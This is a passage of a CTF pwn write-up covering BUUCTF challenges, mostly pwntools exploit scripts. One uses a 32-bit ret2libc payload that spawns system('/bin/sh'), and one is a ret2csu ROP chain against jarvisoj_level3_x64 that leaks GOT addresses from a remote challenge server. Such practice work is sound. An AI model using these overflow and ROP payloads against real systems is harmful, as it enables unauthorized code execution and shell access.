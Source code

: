 ```python

read = u32(io.recv(4))
print(hex(read))
libc = LibcSearcher('read', read)
base = read - libc.dump('read')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(136 + 4)
payload += p32(sys)
payload += p32(0xdeadbeef)
payload += p32(binsh)

io.sendline(payload)

io.interactive()
```
# buu036-jarvisoj_level3_x64
典型的ret2csu，与RopEmporium的最后一题利用方式高度一致。
注意第一个payload里面的0x600890保存的实际是sub rsp,8 ; add rsp,8 ; ret的地址。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28787)
elf = ELF('./pwn')

# gdb.attach(io)
# sleep(1)

poprdi_ret = 0x4006b3
poprsir15_ret = 0x4006b1
movrdxr13 = 0x400690
pop6_ret = 0x4006aa

payload = cyclic(128 + 8)

payload += p64(pop6_ret)
payload += p64(0)			# rbx
payload += p64(1)			# rbp
payload += p64(0x600890)	# r12
payload += p64(8)			# r13
payload += p64(elf.got['read'])	# r14
payload += p64(0)			# r15

payload += p64(movrdxr13)	# mov rdx, r13; mov rsi, r14; mov edi, r15d
# then call 'pop rdi, ret'
# payload += p64(1)
payload += p64(0) * 7

payload += p64(poprdi_ret)
payload += p64(1)
# at this time, rdi = 1, rsi = addr(got['read']), rdx = 4
payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])

io.sendlineafter(b'Input:\n', payload)

read = u64(io.recv(8))

```